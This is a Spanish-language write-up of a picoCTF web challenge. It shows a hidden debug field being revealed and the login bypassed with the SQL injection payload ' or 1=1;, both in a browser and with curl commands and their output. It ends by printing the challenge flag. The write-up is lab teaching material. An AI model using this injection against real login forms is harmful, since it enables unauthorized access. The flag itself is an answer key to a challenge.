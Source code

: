 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

Hints
- There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.
## Solucion
Inspeccionamos y encontramos un campo oculto el cual  mostramos.
```html
<input type="show" name="debug" value="1">
```
Esto nos permitira ver como se hace la consulta sql para ingresar.
```sql
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```
Intentamos una inyeccion sql que se veria de esta esta manera si ingresamos en el campo de admin ' or 1=1;
``` sql
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'
```
Y obtenemos la bandera:
Your flag is: picoCTF{s0m3_SQL_c218b685}

## Solucion 2

```bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d 'username=admin&password=admin'
<h1>Login failed.</h1>
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d 'username=admin&password=admin&debug=1'
<pre>username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
</pre><h1>Login failed.</h1>
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username=' or 1=1;&password=admin&debug=1"
<pre>username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$
```
## Notas adicionales
## Referencias
- [SQL injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection#:~:text=In%20computing%2C%20SQL%20injection%20is,database%20contents%20to%20the%20attacker).
- [SQL Injection (w3schools.com)](https://www.w3schools.com/sql/sql_injection.asp)